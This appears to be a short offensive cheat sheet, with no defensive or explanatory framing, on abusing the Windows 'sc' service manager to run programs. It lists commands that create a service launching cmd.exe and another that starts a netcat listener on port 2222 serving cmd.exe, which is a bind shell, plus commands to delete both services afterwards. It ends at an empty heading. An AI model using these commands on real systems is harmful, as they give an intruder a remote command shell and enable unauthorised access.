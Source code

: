 # SC invoke service - executable
## cmd.exe 
- sc \\127.0.0.1 create cmd binpath= "cmd.exe"
- sc \\127.0.0.1 delete cmd 
## netcat
- sc \\127.0.0.1 create netcat binpath= "cmd.exe /k C:\tools\nc.exe -L -p 2222 -e cmd.exe"
- sc \\127.0.0.1 delete netcat 
## servify this